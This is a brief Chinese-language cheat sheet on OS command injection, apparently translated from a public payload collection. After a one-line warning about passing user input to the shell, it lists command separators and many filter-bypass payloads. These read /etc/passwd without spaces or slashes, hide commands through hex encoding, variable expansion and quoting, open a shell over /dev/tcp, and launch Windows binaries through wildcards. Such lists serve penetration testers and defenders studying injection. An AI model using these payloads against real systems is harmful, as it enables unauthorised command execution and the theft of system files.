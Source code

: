     	有时应用程序会接受用户提供的输入并作为参数传递给命令行上的工具。 将用户提供的输入传递给命令行总是一个坏主意，应该避免。 根据操作系统，您可以使用多种技术来执行其他命令，从而允许攻击者获得 RCE
    	& 
    	&&
    	|
    	||
    	;
    	`Command`
    	$(Command)
  #### 工具
  	https://github.com/commixproject/commix
  #### 绕过 bypass
  ##### Linux无空格
	cat</etc/passwd
	{cat,/etc/passwd}
	cat$IFS/etc/passwd
	echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
	X=$'uname\x20-a'&&$X
	sh</dev/tcp/127.0.0.1/4242
	IFS=,;`cat<<<uname,-a`
	;ls%09-al%09/home
  ##### Windows
	ping%CommonProgramFiles:~10,-18%IP
	ping%PROGRAMFILES:~10,-5%IP
  ##### 绕过回车
	something%0Acat%20/etc/passwd
	写文件
	;cat>/tmp/hi<<EOF%0ahello%0aEOF
	;cat</tmp/hi
	hello
  ##### 通过十六进制编码绕过
  	Linux
	cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
	abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
	`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
	cat `xxd -r -p <<< 2f6574632f706173737764`
	cat `xxd -r -ps <(echo 2f6574632f706173737764)`
  ##### 绕过字符过滤器
	没有反斜杠和斜杠的命令执行
	cat ${HOME:0:1}etc${HOME:0:1}passwd
	cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
  ##### 绕过列入黑名单的词
  	单引号w'h'o'am'i
	双引号w"h"o"am"i
	用反斜杠和斜杠绕过
	w\ho\am\i
	/\b\i\n/////s\h
	使用 $@ 绕过
	who$@ami

	echo $0
	-> /usr/bin/zsh
	echo whoami|$0
	使用 $() 绕过
	who$()ami
	who$(echo am)i
	who`echo am`i
	使用变量扩展绕过
	/???/??t /???/p??s??

	test=/ehhh/hmtc/pahhh/hmsswd
	cat ${test//hhh\/hm/}
	cat ${test//hh??hm/}
	使用通配符绕过
	powershell C:\*\*2\n??e*d.*? # notepad
	@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc